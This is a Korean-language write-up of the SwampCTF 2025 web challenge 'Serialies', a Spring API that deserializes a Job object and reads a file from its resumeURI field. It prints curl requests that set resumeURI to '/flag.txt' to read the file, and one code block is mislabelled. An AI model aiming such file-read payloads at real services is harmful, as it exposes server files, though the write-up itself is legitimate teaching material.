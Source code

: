 # 🐊 SwampCTF 2025 Writeup - [Serialies]

**Category:** [Web]  
**Points:** [20]  
**Tags:** `CTF`, `[Web]`, `swampctf`  

---
## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---

## 🔍 Recon

![문제 웹](./Pasted%20image%20250403002659.png)
- 문제 웹 페이지와 소스코드 제공됨

---

## 🎯 The Goal

> 플래그를 얻기 위해 해야 할 주요 목표 정리

- [ ] 시스템 정보 수집
- [ ] 역직렬화 + 파일 읽기 취약점 유도

---

## 💉 Exploit

### 🛠️Step 1. 웹 페이지 접속 및 분석

![문제 웹](./Pasted%20image%20250403002722.png)
```html
<html>
  <body>
    <h1>Whitelabel Error Page</h1>
    <p>
      This application has no explicit mapping for <code>/error</code>,  
      so you are seeing this as a fallback.
    </p>
    <div id="created">Wed Apr 02 02:18:16 UTC 2025</div>
    <div>
      There was an unexpected error (type=Not Found, status=404).
    </div>
  </body>
</html>

```

👉 별다른 정보 없음

### 🛠️Step 2. 소스코드 분석

📁 `\src\main\java\com\serialies\serialies\PersonController.java`
```java
...
@RestController
@RequestMapping("/api/person")
public class PersonController {

    private List<Person> persons = new ArrayList<>();

    @PostMapping
    public String createPerson(@RequestBody Person person) {
        if (person.getAddress() == null) {
            throw new IllegalArgumentException("Address is required");
        }
        if (person.getJob() != null) {
            try {
                person.getJob().init();
            } catch (IOException e) {
                throw new RuntimeException("Error", e);
            }
        }
        persons.add(person);
        return "Person has been created with ID: " + person.getId();
    }

    @GetMapping
    public List<Person> getAllPersons() {
        return persons;
    }

    @GetMapping("/{id}")
    public Person getPersonById(@PathVariable UUID id) {
        Optional<Person> person = persons.stream().filter(p -> p.getId().equals(id)).findFirst();
        if (person.isPresent()) {
            return person.get();
        } else {
            throw new RuntimeException("Person not found with ID: " + id);
        }
    }
}

```

- `/api/person` 경로 확인됨
- `POST` 요청 시 `job.init()` 호출이 핵심
```java
if (person.getJob() != null) {
    person.getJob().init();
}
```
### 🛠️Step 3. /api/person 경로 접속

![문제 웹](./Pasted%20image%20250403002800.png)

페이지 접속 후 flag 값 획득 가능
하지만 해당 방법으로 푸는 것은 아니라고 판단 후 다시 문제를 확인 

### 🛠️Step 4. PersonController 분석

**POST 요청**
```java
...
@RestController
@RequestMapping("/api/person")
public class PersonController {

    private List<Person> persons = new ArrayList<>();

    @PostMapping
    public String createPerson(@RequestBody Person person) {
        if (person.getAddress() == null) {
            throw new IllegalArgumentException("Address is required");
        }
        if (person.getJob() != null) {
            try {
                person.getJob().init();
            } catch (IOException e) {
                throw new RuntimeException("Error", e);
            }
        }
        persons.add(person);
        return "Person has been created with ID: " + person.getId();
    }
```

**`init()`Job 클래스**
```java
    @GetMapping
    public List<Person> getAllPersons() {
        return persons;
    }

    @GetMapping("/{id}")
    public Person getPersonById(@PathVariable UUID id) {
        Optional<Person> person = persons.stream().filter(p -> p.getId().equals(id)).findFirst();
        if (person.isPresent()) {
            return person.get();
        } else {
            throw new RuntimeException("Person not found with ID: " + id);
        }
    }
}
```

- Job 객체가 `resumeURI` 값을 가지고 있고,
- `init()` 내에서 해당 경로의 파일을 열어봄 → **LFI 가능**

### 🛠️Step 5. Exploit

#### 📨 POST 요청
```
curl -X POST http://chals.swampctf.com:44444/api/person \
  -H "Content-Type: application/json" \
  -d '{
    "id": "11111111-1111-1111-1111-111111111111",
    "address": "somewhere",
    "job": {
      "resumeURI": "/flag.txt"
    }
}'
```

#### 🔎 GET 요청
```
curl http://chals.swampctf.com:44444/api/person/11111111-1111-1111-1111-111111111111
```

![문제 웹](./Pasted%20image%20250403002852.png)
👉 flag 확인 성공

#### 🛠️ 사용한 도구
  - [ ] curl

---

## 🍪 Info Leakage or Gain

- Java Jackson 기반 역직렬화 취약점
- @class 타입을 안전하지 않게 사용

---

## 👑 Accessing the Flag

```
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}
```

---

## 🧠 Conclusion

- **안전하지 않은 직렬화 방법** + **파일 읽기 취약점**
- JSON을 통해 직렬화된 객체를 그대로 받아들임
- `resumeURI` 값을 기반으로 서버가 **파일 내용을 자동으로 읽음**

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_